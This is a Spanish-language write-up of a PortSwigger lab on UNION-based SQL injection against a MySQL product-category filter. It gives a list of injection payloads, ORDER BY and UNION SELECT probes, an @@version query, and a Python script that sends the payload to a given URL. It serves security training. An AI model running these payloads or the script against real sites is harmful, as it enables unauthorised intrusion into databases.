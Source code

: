 ```yaml
---
title: "08 SQLi attack, querying the database type and version on MySQL & Microsoft"
collection: publications
category: portswigger
permalink: /publications/08_SQLi attack, querying the database type and version on MySQL & Microsoft
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION que consulta el tipo y la versión de la base de datos en bases de datos de Microsoft y MySQL.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi attack, querying the database type and version on MySQL & Microsoft'
---
```


![logo]({{site.url}}/images/SQLi/sqli-7/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-7/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, visualice la cadena de versión de la base de datos.

## Determinamos que el campo si es vulnerable

Ingresamos una lista de payloads y ejecutamos con Burpsuite

```javascript
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		addition, concatenate (or space in url)
||		(double pipe) concatenate
%		wildcard attribute indicator
@variable	local variable
@@variable	global variable
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado.png)

Y probamos uno de los resultados

![Intruder]({{site.url}}/images/SQLi/sqli-8/resultado2.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1#
' ORDER BY 2#
```

![Intruder]({{site.url}}/images/SQLi/sqli-8/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String', en esta ocación que es BD MySQL necesitamos comentar con #.
Los 2 campos son de tipo `String`

```javascript
' UNION SELECT 'A', NULL#
' UNION SELECT NULL, 'A'# 
' UNION SELECT 'A', 'A'#
```

![String]({{site.url}}/images/SQLi/sqli-8/campos string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Ya que sabemos que es una BD MySQL

```javascript
' UNION SELECT 'A', @@version#
```

![DB version]({{site.url}}/images/SQLi/sqli-8/version.png)

# Codigo Python

```python
import requests
import sys
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def explot_sqli_version(url):
    path = "/filter?category=Gifts"
    sql_payload = "' UNION SELECT @@version, NULL#"
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    res = r.text
    soup = BeautifulSoup(res, 'html.parser')
    version = soup.find(string=re.compile(r'.*\d{1,2}\.\d{1,2}\.\d{1,2}.*'))
    if version is None:
        return False
    else:
        print("[-] The database version is: " + version)
        return True

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    print("[+] Dumping the version of  the database...")
    if not explot_sqli_version(url):
        print("[-] Unable to dump the database version.")
```
